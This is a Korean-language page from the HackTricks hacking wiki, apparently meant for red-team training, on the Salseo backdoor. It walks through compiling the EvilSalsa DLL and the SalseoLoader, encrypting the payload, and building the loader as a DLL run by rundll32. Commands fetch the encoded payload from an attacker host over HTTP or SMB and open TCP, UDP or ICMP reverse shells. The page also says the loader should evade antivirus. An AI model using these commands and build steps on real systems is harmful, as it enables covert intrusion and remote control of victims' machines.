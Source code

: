 # Salseo

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 바이너리 컴파일

github에서 소스 코드를 다운로드하고 **EvilSalsa**와 **SalseoLoader**를 컴파일하세요. 코드를 컴파일하려면 **Visual Studio**가 설치되어 있어야 합니다.

사용할 윈도우 박스의 아키텍처에 맞게 프로젝트를 컴파일하세요(윈도우가 x64를 지원하면 해당 아키텍처로 컴파일하세요).

**Visual Studio**의 **왼쪽 "Build" 탭**에서 **"Platform Target"**을 통해 **아키텍처를 선택**할 수 있습니다.

(\*\*이 옵션을 찾을 수 없으면 **"Project Tab"**을 클릭한 다음 **"\<Project Name> Properties"**를 클릭하세요)

![](<../.gitbook/assets/image (839).png>)

그런 다음 두 프로젝트를 빌드하세요 (Build -> Build Solution) (로그 안에 실행 파일의 경로가 나타납니다):

![](<../.gitbook/assets/image (381).png>)

## 백도어 준비

우선, **EvilSalsa.dll**을 인코딩해야 합니다. 이를 위해 **encrypterassembly.py**라는 파이썬 스크립트를 사용하거나 **EncrypterAssembly** 프로젝트를 컴파일할 수 있습니다.

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### 윈도우
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
알겠습니다. 이제 Salseo 작업을 실행하는 데 필요한 모든 것이 있습니다: **인코딩된 EvilDalsa.dll**과 **SalseoLoader의 바이너리.**

**SalseoLoader.exe 바이너리를 머신에 업로드하세요. 어떤 AV에도 탐지되지 않아야 합니다...**

## **백도어 실행**

### **TCP 리버스 셸 얻기 (HTTP를 통해 인코딩된 dll 다운로드)**

nc를 리버스 셸 리스너로 시작하고 인코딩된 evilsalsa를 제공할 HTTP 서버를 시작하는 것을 잊지 마세요.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDP 리버스 셸 얻기 (SMB를 통한 인코딩된 dll 다운로드)**

nc를 리버스 셸 리스너로 시작하고, 인코딩된 evilsalsa를 제공하기 위해 SMB 서버를 시작하는 것을 잊지 마세요 (impacket-smbserver).
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMP 리버스 셸 얻기 (피해자 내부에 이미 인코딩된 dll)**

**이번에는 리버스 셸을 수신하기 위해 클라이언트에 특별한 도구가 필요합니다. 다운로드:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP 응답 비활성화:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### 클라이언트 실행:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### 피해자 내부에서, salseo 작업을 실행해 보겠습니다:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## SalseoLoader를 DLL로 컴파일하여 메인 함수 내보내기

Visual Studio를 사용하여 SalseoLoader 프로젝트를 엽니다.

### 메인 함수 앞에 추가: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### 이 프로젝트에 DllExport 설치

#### **도구** --> **NuGet 패키지 관리자** --> **솔루션용 NuGet 패키지 관리...**

![](<../.gitbook/assets/image (881).png>)

#### **DllExport 패키지 검색 (탭에서 찾아보기 사용), 설치를 누르고 (팝업을 수락)**

![](<../.gitbook/assets/image (100).png>)

프로젝트 폴더에 **DllExport.bat** 및 **DllExport\_Configure.bat** 파일이 나타났습니다.

### **U**ninstall DllExport

**Uninstall**을 누릅니다 (이상하게 들리지만 믿어주세요, 필요합니다)

![](<../.gitbook/assets/image (97).png>)

### **Visual Studio 종료 및 DllExport\_configure 실행**

그냥 **종료**합니다 Visual Studio

그런 다음, **SalseoLoader 폴더**로 가서 **DllExport\_Configure.bat**를 실행합니다.

**x64**를 선택합니다 (x64 박스 내에서 사용할 경우, 제 경우가 그랬습니다), **System.Runtime.InteropServices**를 선택합니다 ( **DllExport**의 **네임스페이스** 내에서) 그리고 **적용**을 누릅니다.

![](<../.gitbook/assets/image (882).png>)

### **Visual Studio로 프로젝트 다시 열기**

**\[DllExport]**는 더 이상 오류로 표시되지 않아야 합니다.

![](<../.gitbook/assets/image (670).png>)

### 솔루션 빌드

**출력 유형 = 클래스 라이브러리**를 선택합니다 (프로젝트 --> SalseoLoader 속성 --> 응용 프로그램 --> 출력 유형 = 클래스 라이브러리)

![](<../.gitbook/assets/image (847).png>)

**x64** **플랫폼**을 선택합니다 (프로젝트 --> SalseoLoader 속성 --> 빌드 --> 플랫폼 대상 = x64)

솔루션을 **빌드**하려면: 빌드 --> 솔루션 빌드 (출력 콘솔 내에 새 DLL의 경로가 나타납니다)

### 생성된 Dll 테스트

테스트할 위치에 Dll을 복사하고 붙여넣습니다.

실행:
```
rundll32.exe SalseoLoader.dll,main
```
오류가 나타나지 않으면, 아마도 기능하는 DLL이 있는 것입니다!!

## DLL을 사용하여 셸 얻기

**HTTP** **서버**를 사용하고 **nc** **리스너**를 설정하는 것을 잊지 마세요.

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
